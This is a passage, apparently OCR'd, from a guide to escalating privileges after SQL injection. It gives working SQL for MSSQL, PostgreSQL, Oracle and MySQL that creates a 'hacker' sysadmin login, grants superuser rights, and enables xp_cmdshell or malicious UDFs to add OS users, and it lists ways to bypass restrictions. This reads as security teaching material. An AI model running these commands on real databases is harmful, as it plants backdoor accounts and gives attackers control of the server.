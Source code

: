    - **MSSQL Example**:  
     ```sql  
     CREATE LOGIN [hacker] WITH PASSWORD='Passw0rd!';  
     ALTER SERVER ROLE sysadmin ADD MEMBER [hacker];  
     ```  
     Adds the new user to the `sysadmin` role, granting system-level permissions.  

2. **Modifying Existing User Roles**:  
   - **PostgreSQL**:  
     ```sql  
     ALTER USER existing_user WITH SUPERUSER;  
     ```  
   - **Oracle**:  
     ```sql  
     GRANT DBA TO existing_user;  
     ```  
   These commands convert a standard user into a superuser, enabling full database control.  

---

#### **Operating System Command Execution**  
SQLi can be weaponized to execute arbitrary commands on the underlying operating system, often through database-specific features:  

| **Database** | **Method**                          | **Example Workflow**                                                                 |  
|--------------|-------------------------------------|-------------------------------------------------------------------------------------|  
| **MSSQL**    | `xp_cmdshell` Stored Procedure       | 1. Enable `xp_cmdshell`: `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`<br>2. Execute: `EXEC xp_cmdshell 'net user hacker Pass123$ /add';` |  
| **MySQL**    | User-Defined Functions (UDF)         | 1. Upload a malicious UDF library (e.g., `libmysqludf_sys.dll`).<br>2. Load and execute: `SELECT sys_exec('net user hacker Pass123$ /add');` |  
| **Oracle**   | `DBMS_SCHEDULER` or `UTL_HTTP`       | `BEGIN DBMS_SCHEDULER.create_job('malicious_job', 'PLSQL_BLOCK', 'BEGIN EXECUTE IMMEDIATE ''CREATE USER hacker IDENTIFIED BY Pass123''; END;'); END;` |  

---

#### **Bypassing Restrictions**  
Even in restricted environments, attackers exploit misconfigurations to escalate privileges:  

1. **Abusing Stored Procedures**:  
   - **MSSQL**: Exploit `xp_dirtree` or `sp_OACreate` to execute commands if `xp_cmdshell` is disabled.  
   - **Oracle**: Use `DBMS_JOB` or `DBMS_SQL` packages to run unauthorized code.  

2. **Weak Permissions on System Tables**:  
   - **MySQL**: If an attacker can write to the `mysql.user` table, they can directly insert credentials.  
   - **PostgreSQL**: Exploit `pg_proc` table vulnerabilities to alter function permissions.  

3. **Exploiting Database Features**:  
   - **SQLite**: Use `ATTACH DATABASE` to access or modify system files.  
   - **MariaDB**: Abuse `file_priv` permissions to read/write files.  

---

#### **Post-Escalation Actions**  
Once elevated privileges are achieved, attackers establish persistence and extract sensitive data:  
